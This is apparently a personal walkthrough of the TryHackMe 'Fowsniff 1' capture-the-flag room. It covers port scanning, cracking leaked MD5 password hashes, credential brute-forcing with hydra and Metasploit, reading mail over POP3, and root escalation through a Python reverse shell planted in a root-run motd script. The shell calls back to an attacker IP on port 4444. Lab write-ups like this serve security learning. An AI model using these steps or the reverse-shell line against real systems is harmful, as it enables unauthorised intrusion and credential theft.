









# THM - FowSniff 1

## Date Commenced: 13MAR2022


---
## IP Address

### Attempt 1
export IP=10.10.212.91

### Attempt 2
export IP=10.10.183.76


---
## Rustscan Results - Open Ports
Rustscan results show the following open ports:
```
22, 80, 110, 143
```


---
## NMAP Results
>nmap  -A -p 22,80,110,143 -sC  -sV 10.10.212.91

	```
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-13 05:05 EDT
	Nmap scan report for 10.10.212.91
	Host is up (0.23s latency).

	PORT    STATE SERVICE VERSION
	22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)
	|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
	|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)
	80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))
	| http-robots.txt: 1 disallowed entry 
	|_/
	|_http-title: Fowsniff Corp - Delivering Solutions
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	110/tcp open  pop3    Dovecot pop3d
	|_pop3-capabilities: RESP-CODES USER UIDL PIPELINING AUTH-RESP-CODE CAPA SASL(PLAIN) TOP
	143/tcp open  imap    Dovecot imapd
	|_imap-capabilities: listed capabilities LOGIN-REFERRALS LITERAL+ Pre-login OK SASL-IR ID more post-login ENABLE have AUTH=PLAINA0001 IDLE IMAP4rev1
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 17.88 seconds

	```


---
## Web page
Nmap reveal port 80 was open and a webpage running on it. No usable links and nothing in page source code.




---
## Robots.txt
```
	User-agent: *
	Disallow: /
```


---
## Gobuster
Using Gobuster to fuzz some directories:
> sudo gobuster dir --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.212.91 -t=250 2> /dev/null

Produces the following results:
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.212.91
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/13 05:04:20 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://10.10.212.91/assets/]
/images               (Status: 301) [Size: 313] [--> http://10.10.212.91/images/]
/server-status        (Status: 403) [Size: 300]                                  
===============================================================
2022/03/13 05:08:20 Finished
===============================================================
```

Nothing much in those folders:






Try some vhosts:
> sudo gobuster vhost --wordlist=/usr/share/wordlists/SecLists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.212.91 -t=250 2> /dev/null

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://10.10.212.91
[+] Method:       GET
[+] Threads:      250
[+] Wordlist:     /usr/share/wordlists/SecLists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/03/13 05:12:31 Starting gobuster in VHOST enumeration mode
===============================================================
===============================================================
2022/03/13 05:17:25 Finished
===============================================================
```

But got nothing.


---
## Port 110
Sniff around on Port 110;
>nc -nv 10.10.212.91 110

```
(UNKNOWN) [10.10.212.91] 110 (pop3) open
+OK Welcome to the Fowsniff Corporate Mail Server!
```

### Nmap
> nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -p 110 10.10.212.91

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-13 05:26 EDT
Nmap scan report for 10.10.212.91
Host is up (0.23s latency).

PORT    STATE SERVICE VERSION
110/tcp open  pop3    Dovecot pop3d
|_pop3-capabilities: PIPELINING CAPA USER AUTH-RESP-CODE UIDL RESP-CODES SASL(PLAIN) TOP

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds
```

### Telnet
Was able to telnet in and guess a password:
> telnet 10.10.212.91 110

```
Trying 10.10.212.91...
Connected to 10.10.212.91.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
user fowsniffcorp
+OK
list
-ERR Unknown command.
PASS password
-ERR [AUTH] Authentication failed.
```

Guessed USER: *fowsniffcorp* from main page



### Hydra
Attempt to hassle the port with hydra:
> hydra -l fowsniffcorp -P /usr/share/wordlists/rockyou.txt -f 10.10.212.91 pop3

No Go!


---
## Port 143
Whats on port 143?
>nc -nv 10.10.212.91 143

```
(UNKNOWN) [10.10.212.91] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE AUTH=PLAIN] Welcome to the Fowsniff Corporate Mail Server!
```

**May come back to this**


---
## Web Enum
Performed a Google search and found the leaked passwords online:

> https://pastebin.com/NrAqVeeX


```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!
 
 
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
 
Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!
 
Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!
 
MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P
 
l8r n00bz!
 
B1gN1nj4
 
-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.
 
All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.
 
Any similarities to actual people or entities is purely coincidental and occurred accidentally.
```

Got me some hashes!


---
## Crack the Hash
HashID informs me it is a MD5 hash. 
John didnt like these hashes but crackstation did



```
8a28a94a588a95b80163709ab4313aa4	md5	mailcall
ae1644dac5b77c0cf51e0d26ad6d7e56	md5	bilbo101
1dc352435fecca338acfd4be10984009	md5	apples01
19f5af754c31f1e2651edde9250d69bb	md5	skyler22
90dc16d47114aa13671c697fd506cf26	md5	scoobydoo2
a92b8a29ef1183192e3d35187e0cfabd	Unknown	Not found.
0e9588cb62f4b6f27e33d449e2ba0b3b	md5	carp4ever
4d6e42f56e127803285a0a7649b5ab11	md5	orlando12
f7fd98d380735e859f8b2ffbbede5a7e	md5	07011972
```


---
## Metasploit
I loaded up the **auxiliary/scanner/pop3/pop3_login** component of Metasploit and passed it text files of the usernames and passwords:



And I got a hit on the user *seina* with the password *scoobydoo2*




---
## Telnet into Port 110
Logged in to the *pop3* mail server using the credentials of the user *seina* and retrieved two emails:

```
┌──(kali㉿kali)-[~/THM/Fowsniff1]
└─$ telnet 10.10.183.76 110
Trying 10.10.183.76...
Connected to 10.10.183.76.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
user seina
+OK
password scoobydoo2
-ERR Unknown command.
pass scoobydoo2
+OK Logged in.
list
+OK 2 messages:
1 1622
2 1280
.
1
-ERR Unknown command: 1
retr 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1000)
        id 0FA3916A; Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
Subject: URGENT! Security EVENT!
Message-Id: <20180313185107.0FA3916A@fowsniff>
Date: Tue, 13 Mar 2018 14:51:07 -0400 (EDT)
From: stone@fowsniff (stone)

Dear All,

A few days ago, a malicious actor was able to gain entry to
our internal email systems. The attacker was able to exploit
incorrectly filtered escape characters within our SQL database
to access our login credentials. Both the SQL and authentication
system used legacy methods that had not been updated in some time.

We have been instructed to perform a complete internal system
overhaul. While the main systems are "in the shop," we have
moved to this isolated, temporary server that has minimal
functionality.

This server is capable of sending and receiving emails, but only
locally. That means you can only send emails to other users, not
to the world wide web. You can, however, access this system via 
the SSH protocol.

The temporary password for SSH is "S1ck3nBluff+secureshell"

You MUST change this password as soon as possible, and you will do so under my
guidance. I saw the leak the attacker posted online, and I must say that your
passwords were not very secure.

Come see me in my office at your earliest convenience and we'll set it up.

Thanks,
A.J Stone


.
retr 2
+OK 1280 octets
Return-Path: <baksteen@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
Received: by fowsniff (Postfix, from userid 1004)
        id 101CA1AC2; Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
To: seina@fowsniff
Subject: You missed out!
Message-Id: <20180313185405.101CA1AC2@fowsniff>
Date: Tue, 13 Mar 2018 14:54:05 -0400 (EDT)
From: baksteen@fowsniff

Devin,

You should have seen the brass lay into AJ today!
We are going to be talking about this one for a looooong time hahaha.
Who knew the regional manager had been in the navy? She was swearing like a sailor!

I don't know what kind of pneumonia or something you brought back with
you from your camping trip, but I think I'm coming down with it myself.
How long have you been gone - a week?
Next time you're going to get sick and miss the managerial blowout of the century,
at least keep it to yourself!

I'm going to head home early and eat some chicken soup. 
I think I just got an email from Stone, too, but it's probably just some
"Let me explain the tone of my meeting with management" face-saving mail.
I'll read it when I get back.

Feel better,

Skyler

PS: Make sure you change your email password. 
AJ had been telling us to do that right before Captain Profanity showed up.

.

```


---
## SSH
Seems to be some SSH credentials, time to access:

Run hydra to see whose password this is:



>**UN:** baksteen <br>
>**PW:** S1ck3nBluff+secureshell



And I am in.


---
## Linux Enum
Some basic enum:

```
baksteen@fowsniff:~$ groups
users baksteen
baksteen@fowsniff:~$ sudo -l
[sudo] password for baksteen: 
Sorry, user baksteen may not run sudo on fowsniff.
baksteen@fowsniff:~$ find / -group users -type f 2> /dev/null
/opt/cube/cube.sh
/home/baksteen/.cache/motd.legal-displayed
/home/baksteen/Maildir/dovecot-uidvalidity
/home/baksteen/Maildir/dovecot.index.log
/home/baksteen/Maildir/new/1520967067.V801I23764M196461.fowsniff
/home/baksteen/Maildir/dovecot-uidlist
/home/baksteen/Maildir/dovecot-uidvalidity.5aa21fac
/home/baksteen/.viminfo
/home/baksteen/.bash_history
/home/baksteen/.lesshsQ
/home/baksteen/.bash_logout
/home/baksteen/term.txt
/home/baksteen/.profile
/home/baksteen/.bashrc
```


---
## Cube.sh
Can write to and execute this file. Python reverse shell maybe

```
baksteen@fowsniff:~$ nano /opt/cube/cube.sh
baksteen@fowsniff:~$ cat /opt/cube/cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.154",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([/bin/sh,-i]);'
```

Turns out that this file wont run as **root** on its own, and the logged in users cannot *sudo*.
This file is called from the *00-header* file in the *motd* folder and is run as root when a user logs in (from ssh)
So log out of the ssh session and back in after setting up a netcat listener.

```
# whoami
root
# pwd
/
# cd /root
# ls
Maildir
flag.txt
# cat flag.txt  
   ___                        _        _      _   _             _ 
  / __|___ _ _  __ _ _ _ __ _| |_ _  _| |__ _| |_(_)___ _ _  __| |
 | (__/ _ \ ' \/ _` | '_/ _` |  _| || | / _` |  _| / _ \ ' \(_-<_|
  \___\___/_||_\__, |_| \__,_|\__|\_,_|_\__,_|\__|_\___/_||_/__(_)
               |___/ 

 (_)
  |--------------
  |&&&&&&&&&&&&&&|
  |    R O O T   |
  |    F L A G   |
  |&&&&&&&&&&&&&&|
  |--------------
  |
  |
  |
  |
  |
  |
 ---

Nice work!

This CTF was built with love in every byte by @berzerk0 on Twitter.

Special thanks to psf, @nbulischeck and the whole Fofao Team.

```


